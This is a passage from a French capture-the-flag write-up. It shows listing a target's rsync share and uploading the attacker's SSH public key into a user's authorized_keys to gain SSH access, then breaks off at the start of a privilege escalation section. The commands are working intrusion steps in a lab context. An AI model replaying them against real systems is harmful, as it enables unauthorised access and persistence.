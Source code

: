 Nous utilisons `rsync` pour accéder aux fichiers.

```sh
# rsync --list-only rsync://rsync-connect@10.10.220.246/files
Password: 
drwxr-xr-x          4,096 2021/02/01 07:51:14 .
drwxr-xr-x          4,096 2021/02/06 07:49:29 sys-internal
drwxrwxr-x          4,096 2021/02/06 06:43:14 sys-internal/.ssh
drwx------          4,096 2021/02/02 06:16:16 sys-internal/.thumbnails
drwx------          4,096 2021/02/02 06:16:16 sys-internal/.thumbnails/large
drwx------          4,096 2021/02/02 06:16:18 sys-internal/.thumbnails/normal
-rw-------          8,437 2021/02/02 06:16:17 sys-internal/.thumbnails/normal/2b53c68a980e4c943d2853db2510acf6.png
-rw-------          6,345 2021/02/02 06:16:18 sys-internal/.thumbnails/normal/473aeca0657907b953403884c53d865c.png
-rw-------            978 2021/02/02 06:16:18 sys-internal/.thumbnails/normal/539380d1cb60fcd744fd5094d314fdc1.png
drwx------          4,096 2021/02/01 07:53:21 sys-internal/Desktop
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Documents
drwxr-xr-x          4,096 2021/02/01 08:46:46 sys-internal/Downloads
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Music
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Pictures
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Public
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Templates
drwxr-xr-x          4,096 2021/02/01 07:53:22 sys-internal/Videos

sent 185 bytes  received 76,450 bytes  5,285.17 bytes/sec
total size is 41,708,382  speedup is 544.25

```

Ensuite, Nous synchronisons notre clé SSH avec le répertoire ``.ssh ``distant.

```sh
└─# cat /root/.ssh/id_rsa.pub > authorized_keys 
─# rsync authorized_keys rsync://rsync-connect@10.10.220.246/files/sys-internal/.ssh/
Password: 
```

je verifie pour voir si la cle ssh a ete bien mise en place

```sh
─# rsync --list-only rsync://rsync-connect@10.10.220.246/files/sys-internal/.ssh/
Password: 
drwxrwxr-x          4,096 2024/05/17 16:41:05 .
-rw-r--r--             22 2024/05/17 16:41:05 authorized_keys
```


[![ssh keys](https://i.ibb.co/ckqX6Zb/success.png)](https://www.highcpmgate.com/pa1gkrtv?key=abe32dd965f8390efccf9628bbed6b26){:target="_blank"}


## Privilege Escalation
Pour aborder le Privilege Escalation, je vais explorer trois méthodes différentes sur cette machine Ubuntu `4.15.0` avec le système d'exploitation Ubuntu 18.04 LTS (Bionic Beaver).

